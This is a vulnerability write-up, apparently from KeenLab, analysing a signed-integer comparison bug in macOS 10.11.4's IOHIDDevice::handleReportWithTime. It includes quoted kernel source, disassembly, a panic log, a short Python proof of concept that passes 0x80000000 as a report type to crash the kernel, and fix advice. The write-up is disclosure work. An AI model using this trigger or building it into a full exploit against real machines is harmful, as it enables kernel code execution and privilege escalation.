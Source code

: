 ##Interesting Integer overflow in enum comparison IOHIDDevice::handleReportWithTime in 10.11.4

By flanker from KeenLab.

There exists a signed integer comparison overflow in `IOHIDDevice::_getReport` and then `handleReportWithTime`, which can lead to oob access/execute in `handleReportWithTime`. A normal process can leverage this vulnerability to archive potential code execution in kernel and escalate privilege.

##Vulnerability analysis
When `IOHIDLibUserClient::_getReport` is called via externalMethod, the code execution flow will be redirected in `IOHIDDevice::getReport` and then called into `IOHIDDevice::handleReportWithTime`, 

```
1281IOReturn IOHIDLibUserClient::getReport(IOMemoryDescriptor * mem, uint32_t * pOutsize, IOHIDReportType reportType, uint32_t reportID, uint32_t timeout, IOHIDCompletion * completion)
1282{
1283    IOReturn ret = kIOReturnBadArgument;
1284
1285    // VTN3: Is there a real maximum report size? It looks like the current limit is around
1286    // 1024 bytes, but that will (or has) changed. 65536 is above every upper limit
1287    // I have seen by a few factors.
1288    if (*pOutsize > 0x10000) {
1289        IOLog("IOHIDLibUserClient::getReport called with an irrationally large output size: %lu\n", (long unsigned) *pOutsize);
1290    }
1291    else if (fNub && !isInactive()) {
1292        ret = mem->prepare();
1293        if(ret == kIOReturnSuccess) {
1294            if (completion) {
1295                AsyncParam * pb = (AsyncParam *)completion->parameter;
1296                pb->fMax        = *pOutsize;
1297                pb->fMem        = mem;
1298                pb->reportType  = reportType;
1299
1300                mem->retain();
1301
1302                ret = fNub->getReport(mem, reportType, reportID, timeout, completion);
1303            }
1304            else {
1305                ret = fNub->getReport(mem, reportType, reportID);
1306
1307                // make sure the element values are updated.
1308                if (ret == kIOReturnSuccess)
1309                    fNub->handleReport(mem, reportType, kIOHIDReportOptionNotInterrupt);
1310
1311                *pOutsize = mem
```
Then `handleReport` and `handleReportWithTime` will be called.

```
2174IOReturn IOHIDDevice::handleReportWithTime(
2175    AbsoluteTime         timeStamp,
2176    IOMemoryDescriptor * report,
2177    IOHIDReportType      reportType,
2178    IOOptionBits         options)
2179{
2180    IOBufferMemoryDescriptor *  bufferDescriptor    = NULL;
2181    void *                      reportData          = NULL;
2182    IOByteCount                 reportLength        = 0;
2183    IOReturn                    ret                 = kIOReturnNotReady;
2184    bool                        changed             = false;
2185    bool                        shouldTickle        = false;
2186    UInt8                       reportID            = 0;
2187
2188    IOHID_DEBUG(kIOHIDDebugCode_HandleReport, reportType, options, __OSAbsoluteTime(timeStamp), getRegistryEntryID());
2189
2190    if ((reportType == kIOHIDReportTypeInput) && !_readyForInputReports)
2191        return kIOReturnOffline;
2192
2193    // Get a pointer to the data in the descriptor.
2194    if ( !report )
2195        return kIOReturnBadArgument;
2196
2197    if ( reportType >= kIOHIDReportTypeCount )
2198        return kIOReturnBadArgument;
2199
2200    reportLength = report->getLength();
2201    if ( !reportLength )
2202        return kIOReturnBadArgument;
2203
2204    if ( (bufferDescriptor = OSDynamicCast(IOBufferMemoryDescriptor, report)) ) {
2205        reportData = bufferDescriptor->getBytesNoCopy();
2206        if ( !reportData )
2207            return kIOReturnNoMemory;
2208    } else {
2209        reportData = IOMalloc(reportLength);
2210        if ( !reportData )
2211            return kIOReturnNoMemory;
2212
2213        report->readBytes( 0, reportData, reportLength );
2214    }
```

In Line 2197, there is  an integer signed comparison overflow. The compiler decides the `kIOHIDReportTypeCount`, which is an enum value, is signed and the assembly instruction are as follows:

```
__text:0000000000006951                 mov     r13d, 0E00002C2h
__text:0000000000006957                 jz      loc_6BBE
__text:000000000000695D                 cmp     r15d, 2
__text:0000000000006961                 jg      loc_6BBE
```
we can see `jg` is used, which indicates a signed comparison.

The `reportType` is a int32 value determined by incoming externalMethod scalar:

```
in function setReport
1355    else
1356        if ( arguments->structureInputDescriptor )
1357            ret = target->setReport( arguments->structureInputDescriptor, (IOHIDReportType)arguments->scalarInput[0], (uint32_t)arguments->scalarInput[1]);
1358        else
1359            ret = target->setReport(arguments->structureInput, arguments->structureInputSize, (IOHIDReportType)arguments->scalarInput[0], (uint32_t)arguments->scalarInput[1]);
1360
1361    return ret;
1362}
```

So an attacker can supply an overflowed negative value, i.e. 0x80000000 in scalar input and cause oob access in `handleReportWithTime`:

```
2220
2221        // The first byte in the report, may be the report ID.
2222        // XXX - Do we need to advance the start of the report data?
2223
2224        reportID = ( _reportCount > 1 ) ? *((UInt8 *) reportData) : 0;
2225
2226        // Get the first element in the report handler chain.
2227
2228        element = GetHeadElement( GetReportHandlerSlot(reportID),
2229                                  reportType);
```
We can see `reportType` is used in `GetHeadElement`, and
```
260#define GetHeadElement(slot, type)  _reportHandlers[slot].head[type]
```
Type is used as index to `head` array, so we can control the element pointer and then a virtual call follows:

```
2060        while ( element ) {
2061
2062            element->createReport(reportID, reportData, &reportLength, &element);
2063

177    virtual bool createReport( UInt8           reportID,
178                               void *        reportData, // report should be allocated outside this method
179                               UInt32 *        reportLength,
180                               IOHIDElementPrivate ** next );
```

Thus it's possible for code execution if memory is prepared.

##CrashLog
We can see a page fault is generated on oob access, indicating the negative 32bit integer has been used as index when accessing memory.
```
panic(cpu 1 caller 0xffffff800af85b8f): "vm_page_check_pageable_safe: trying to add page" "from compressor object (0xffffff800b6c35f0) to pageable queue"@/Library/Caches/com.apple.xbs/Sources/xnu/xnu-3248.40.184/osfmk/vm/vm_resident.c:7076
Backtrace (CPU 1), Frame : Return Address
0xffffff911638b230 : 0xffffff800aedab12 mach_kernel : _panic + 0xe2
0xffffff911638b2b0 : 0xffffff800af85b8f mach_kernel : _vm_page_check_pageable_safe + 0x3f
0xffffff911638b2d0 : 0xffffff800af4a8e3 mach_kernel : _vm_fault_enter + 0x9b3
0xffffff911638b450 : 0xffffff800af4e80b mach_kernel : _vm_page_validate_cs_mapped_chunk + 0x226b
0xffffff911638b670 : 0xffffff800afcdf6d mach_kernel : _kernel_trap + 0x47d
0xffffff911638b850 : 0xffffff800afec273 mach_kernel : _return_from_trap + 0xe3
0xffffff911638b870 : 0xffffff7f8bd4c283 com.apple.iokit.IOHIDFamily : __ZN11IOHIDDevice20handleReportWithTimeEyP18IOMemoryDescriptor15IOHIDReportTypej + 0x191
0xffffff911638b9f0 : 0xffffff7f8bd4ad45 com.apple.iokit.IOHIDFamily : __ZN11IOHIDDevice12handleReportEP18IOMemoryDescriptor15IOHIDReportTypej + 0x5b
0xffffff911638ba30 : 0xffffff7f8bd486b2 com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient9getReportEP18IOMemoryDescriptorPj15IOHIDReportTypejjP15IOHIDCompletion + 0x12c
0xffffff911638ba80 : 0xffffff7f8bd4877b com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient9getReportEPvPj15IOHIDReportTypejjP15IOHIDCompletion + 0x99
0xffffff911638bad0 : 0xffffff7f8bd46c3b com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient10_getReportEPS_PvP25IOExternalMethodArguments + 0x13b
0xffffff911638bb30 : 0xffffff800b4b5958 mach_kernel : __ZN13IOCommandGate9runActionEPFiP8OSObjectPvS2_S2_S2_ES2_S2_S2_S2_ + 0x1a8
0xffffff911638bba0 : 0xffffff7f8bd47556 com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient14externalMethodEjP25IOExternalMethodArgumentsP24IOExternalMethodDispatchP8OSObjectPv + 0x64
0xffffff911638bbe0 : 0xffffff800b4df277 mach_kernel : _is_io_connect_method + 0x1e7
0xffffff911638bd20 : 0xffffff800af97cc0 mach_kernel : _iokit_server + 0x5bd0
0xffffff911638be30 : 0xffffff800aedf283 mach_kernel : _ipc_kobject_server + 0x103
0xffffff911638be60 : 0xffffff800aec28b8 mach_kernel : _ipc_kmsg_send + 0xb8
0xffffff911638bea0 : 0xffffff800aed2665 mach_kernel : _mach_msg_overwrite_trap + 0xc5
0xffffff911638bf10 : 0xffffff800afb8bda mach_kernel : _mach_call_munger64 + 0x19a
0xffffff911638bfb0 : 0xffffff800afeca96 mach_kernel : _hndl_mach_scall64 + 0x16
      Kernel Extensions in backtrace:
         com.apple.iokit.IOHIDFamily(2.0)[8D04EA14-CDE1-3B41-8571-153FF3F3F63B]@0xffffff7f8bd46000->0xffffff7f8bdbdfff
            dependency: com.apple.driver.AppleFDEKeyStore(28.30)[C31A19C9-8174-3E35-B2CD-3B1B237C0220]@0xffffff7f8bd3b000

BSD process name corresponding to current thread: Python
```
##POC


KitLib Python POC Code:

    import kitlib
    h = kitlib.openMultipleSvc('IOUSBHostHIDDevice', [0,0])[1]
    kitlib.callConnectMethod(h, 12, [0x80000000L]*3, '', 0, 1)



Tested on macmini/macbooks with usb keyboard connected (for this specific IOUSBHIDDevice service). Of course other services extending IOHIDDevice can also be affected. Other models can also apply with configuration parameter tunned.
Changing the first parameter to like 0x8000ffff and we can observe that the fault address has changed correspondingly, showing the possibility of exploitation.

##Fix advice
add check on reportType for negative, only accept positive value. Fixed in 10.11.5 by replacing jg with ja.

